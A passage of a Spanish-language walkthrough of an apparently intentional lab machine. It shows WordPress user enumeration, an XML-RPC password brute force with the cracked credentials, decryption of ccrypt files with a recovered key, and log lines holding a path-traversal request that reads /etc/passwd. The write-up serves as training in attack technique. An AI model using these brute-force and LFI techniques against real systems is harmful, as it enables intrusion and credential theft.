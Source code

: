 ```bash
 Brute Forcing Author IDs - Time: 00:00:00 <==================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] webmaster
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - webmaster / mickey                                                                  
^Cying admin / cecily Time: 00:04:54 <                > (37070 / 28688884)  0.12%  ETA: 63:20:07
[!] Valid Combinations Found:
 | Username: webmaster, Password: mickey
```
Dentro de la pagina de wordpress tenemos un mensaje que dice 
```txt
CONFIDENTIAL
NOT TO BE PUBLISHED

note to self: Yn89m1RFBJ
```

Con esta credencial creo que podriamos descomprimir los archivos ``.cpt``

```bash
❯ ccrypt -d * 
Enter decryption key: Yn89m1RFBJ
```

Viendo los archivos y leyendolos encontramos un nuevo usuario ``chaz`` y un vhost ``lovegeografia``

```bash
❯ cat auth.log | grep "user:"
Nov 14 19:39:57 debian systemd: pam_unix(systemd-user:session): session opened for user root(uid=0) by (uid=0)
Nov 26 15:52:32 debian systemd: pam_unix(systemd-user:session): session opened for user root(uid=0) by (uid=0)
Nov 26 15:56:29 debian useradd[8409]: new user: name=mysql, UID=107, GID=115, home=/nonexistent, shell=/bin/false, from=none
Nov 26 16:16:07 debian useradd[16501]: new user: name=chaz, UID=1001, GID=1001, home=/home/chaz, shell=/bin/bash, from=/dev/pts/0
```

```bash
❯ cat access.log | grep "http://lovegeografia.anaximandre.hmv"
192.168.0.29 - - [26/Nov/2022:16:14:52 +0100] "GET /init/index.php HTTP/1.1" 200 4683 "http://lovegeografia.anaximandre.hmv/" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
```
De la misma manera encontre un directorio que alguien mas habia probado la cual contenia LFI
```bash
❯ cat access.log | grep "../../../../"                        
192.168.0.29 - - [26/Nov/2022:16:15:38 +0100] "GET /exemplos/codemirror.php?&pagina=../../../../../../../../../../../../../../../../../etc/passwd HTTP/1.1" 200 982 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
```
